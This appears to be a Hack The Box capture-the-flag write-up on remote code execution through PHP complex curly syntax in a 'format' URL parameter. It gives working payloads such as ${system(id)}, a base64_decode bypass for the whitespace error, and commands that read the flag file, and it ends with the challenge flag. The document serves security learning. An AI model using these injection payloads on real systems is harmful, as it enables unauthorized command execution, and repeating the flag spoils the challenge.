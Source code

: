 ## Exploitation - RCE abusing PHP Complex Syntax

![Pasted image 20210505111319.png](../../zzz_res/attachments/Pasted_image_20210505111319.png)

![Pasted image 20210505111347.png](../../zzz_res/attachments/Pasted_image_20210505111347.png)

`/?format=<@urlencode_all>${system(id)}<@/urlencode_all>`

![Pasted image 20210505111411.png](../../zzz_res/attachments/Pasted_image_20210505111411.png)

Error using white spaces:

![Pasted image 20210505113840.png](../../zzz_res/attachments/Pasted_image_20210505113840.png)

White-space error bypass using base64:
`/?format=<@urlencode_all>${system(base64_decode(<@base64>ls -al<@/base64>))}<@/urlencode_all>`

![Pasted image 20210505114048.png](../../zzz_res/attachments/Pasted_image_20210505114048.png)

`/?format=${system(base64_decode(<@base64>ls ../<@/base64>))}`

![Pasted image 20210505114604.png](../../zzz_res/attachments/Pasted_image_20210505114604.png)

`/?format=${system(base64_decode(<@base64>cat ../flagXGYLX  <@/base64>))}`

![Pasted image 20210505114806.png](../../zzz_res/attachments/Pasted_image_20210505114806.png)

## Flag.txt

>[!success]
`HTB{wh3n_l0v3_g3ts_eval3d_sh3lls_st4rt_p0pp1ng}`
